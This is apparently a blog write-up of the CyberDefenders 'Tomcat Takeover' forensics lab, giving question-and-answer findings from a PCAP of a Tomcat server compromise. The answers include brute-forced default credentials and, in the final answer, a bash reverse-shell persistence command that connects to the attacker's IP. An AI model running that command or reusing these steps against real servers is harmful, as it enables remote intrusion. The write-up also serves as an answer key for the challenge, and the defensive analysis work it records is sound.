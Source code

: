 ```yaml
---
title: "[CD] Tomcat Takeover"
date: 2024-08-06
categories: [Writeups, CyberDefenders]
tags: [CyberDefenders, Writeup, Wireshark, PCAP]
---
```


Scenario:

Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

# Questions

**Q:** Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server? <br />
**A:** 14.0.0.120 <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q1-1.png" alt="Tomcat Takeover">

***

**Q:** Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated? <br />
**A:** Guangzhou <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q2-1.png" alt="Tomcat Takeover">

***

**Q:** From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel? <br />
**A:** 8080 <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q3-1.png" alt="Tomcat Takeover">

***

**Q:** Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process? <br />
**A:** gobuster <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q4-1.png" alt="Tomcat Takeover">

***

**Q:** Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover? <br />
**A:** /manager <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q5-1.png" alt="Tomcat Takeover">

***

**Q:** Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization? <br />
**A:** admin:tomcat <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q6-1.png" alt="Tomcat Takeover">

***

**Q:** Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data? <br />
**A:** JXQOZY.war <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q7-1.png" alt="Tomcat Takeover">

***

**Q:** Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence? <br />
**A:** /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1' <br />
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q8-1.png" alt="Tomcat Takeover">
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q8-2.png" alt="Tomcat Takeover">
<img src="/assets/img/Tomcat-Takeover/Tomcat-Takeover-q8-3.png" alt="Tomcat Takeover">

***
